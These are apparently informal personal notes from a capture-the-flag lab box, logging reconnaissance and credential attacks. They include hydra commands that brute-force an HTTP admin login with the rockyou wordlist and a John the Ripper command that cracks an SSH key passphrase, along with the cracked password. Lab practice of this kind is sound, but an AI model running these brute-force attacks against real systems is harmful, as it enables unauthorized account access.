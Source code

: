 nmap
then gobuster 
/admin login 
admin username in comments of admin page

hydra -l admin -P ~/Desktop/SecLists-master/Passwords/Leaked-Databases/rockyou.txt  10.10.120.139 -V http-form-post '/admin:user=^USER^&pass=^PASS^:F=Username'


hydra -l admin -P ~/Desktop/SecLists-master/Passwords/Leaked-Databases/5wordRock.txt  10.10.120.139 -V http-form-post '/admin:user=^USER^&pass=^PASS^:F=Username or password invalid'


this ddint work. even wrote a python script to strip all the 6 word letters. i used copys of previous writeups commands and nada 



 john --wordlist=~/Desktop/SecLists-master/Passwords/Leaked-Databases/rockyou.txt  john.hash

rockinroll       (id_rsa) 


supposed to get the root users password, im not sure how to do that. 